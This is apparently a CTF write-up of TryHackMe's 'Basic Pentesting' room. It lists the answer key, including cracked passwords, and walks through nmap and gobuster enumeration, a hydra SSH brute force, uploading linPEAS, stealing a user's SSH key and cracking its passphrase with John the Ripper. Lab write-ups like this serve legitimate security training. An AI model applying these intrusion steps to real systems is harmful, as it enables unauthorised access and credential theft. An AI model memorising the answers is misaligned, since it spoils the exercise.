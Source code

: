 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

### MyWalk:

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```
jan:armando <span style="color:green;">Q3 done</span>

Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
<span style="color:green;">Q6 done</span>

### Tools:
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper